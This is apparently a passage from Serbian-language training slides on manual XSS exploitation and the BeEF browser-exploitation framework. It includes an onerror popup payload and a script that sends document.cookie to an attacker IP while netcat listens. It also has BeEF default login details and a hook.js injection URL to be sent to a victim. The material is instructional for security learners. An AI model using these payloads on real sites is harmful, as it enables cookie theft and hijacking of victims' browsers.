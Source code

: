 ```
<img src = "http://example.com"onerror=window.open("http://google.com","xss",
'height=500,width=500');>
```
* redirecting...
    
---
# Manuelna ekspolatacija XSS
### Krađa kolačića
![h:400](https://4.bp.blogspot.com/-0w33qIB2EAo/TgDHdGCbZMI/AAAAAAAABSg/2XGa4qtmCw8/s1600/stealing-cookies.jpg)

---
# Manuelna ekspolatacija XSS
### Krađa kolačića

* ```<script>new Image().src="http://192.168.1.8:80/b.php?"+document.cookie;</script>```
* netcat -lvp 80    
 * l - slušaj (listen)
 * v - budi pričljiv, ištampaj sve primljene informacije (be verbose)
 * p - koristi sledeći port 
 
---
# Eksploatacija sa BEEF-om
* Četiri koraka:
 1. Napisati maliciozni kod
 2. Napraviti URL
 3. Poslati URL žrtvi
---

![h:600](https://media.musely.com/u/03d3fb72-453d-4b09-8004-abef12ad20c8.jpg)

---
# BEEF

* Kali -> Applications -> Exploitation tools
* http://localhost:3000/ui/authentication
 * username: admin
 * password: admin

---

# Pravljenje koda
* ```<script src=http://ip_napadaca:3000/hook.js></script>```
 * može se naći na početnoj strani beef-a
* Dostavljanje koda putem linka ili vulnerabilnog polja
	* ```http://example.com/search.asp?query=<script src=http://ip_napadaca:3000/hook.js></script>```
  
---
# Preuzimanje brauzera računara u lokalnoj mrezi

* http://ip_napadaca:3000/demos/butcher/index.html
* Details, logs, commands
  
